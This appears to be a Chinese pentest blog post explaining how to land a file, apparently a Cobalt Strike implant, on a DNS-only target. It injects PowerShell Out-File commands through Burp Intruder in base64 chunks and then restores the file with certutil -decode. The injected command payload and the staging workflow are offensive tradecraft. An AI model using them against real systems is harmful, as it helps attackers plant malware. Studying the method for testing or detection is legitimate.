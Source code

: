 ```yaml
---
title: "极限环境Certutil加Powershell配合Burp快速落地文件"
date: 2020-09-28T14:54:25+08:00
draft: false
tags:
- Certutil
- Powershell
series:
-
categories:
- 渗透测试
---
```


碰到一些极限环境，比如站库分离只出dns的时候，想上线cs的马，但是文件迟迟不能落地，相信很多人都会想到certutil等工具。
<!--more-->

而在使用certutil base64通过echo写文件时，echo会在每行的末尾追加一个空格，加上http传输的URL编码问题，有一些傻逼环境总是decode时候出错，而且一些几十几百k的文件，一行一行echo实在是拉跨。所以用powershell配合bp的爆破模块来写文件，然后 `certutil -decode` 就完事了，轻松省心。

```powershell
powershell -c "'a' | Out-File C:\1.txt -Append"
```

写文件的时候通过bp的爆破模块去单线程写入文件，举一个请求包的例子。

```
/login HTTP/1.1
Host: baidu.com

cmd=powershell -c "'§§' | Out-File C:\1.txt -Append"
```

设置参数
![image.png](https://y4er.com/img/uploads/20200928158664.png)



设置certutil encode的txt字典
![image.png](https://y4er.com/img/uploads/20200928155864.png)

勾上URL编码
![image.png](https://y4er.com/img/uploads/20200928158567.png)


设置单线程，你也可以设置每次请求之后sleep 1秒。
![image.png](https://y4er.com/img/uploads/20200928152618.png)

冲完之后落地到目标的txt文件和本地的txt文件hash一致，decode之后的文件hash仍然一致。

本地还原文件的hash
![image.png](https://y4er.com/img/uploads/20200928152292.png)

落地到目标还原之后的文件hash
![image.png](https://y4er.com/img/uploads/20200928150771.png)



**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**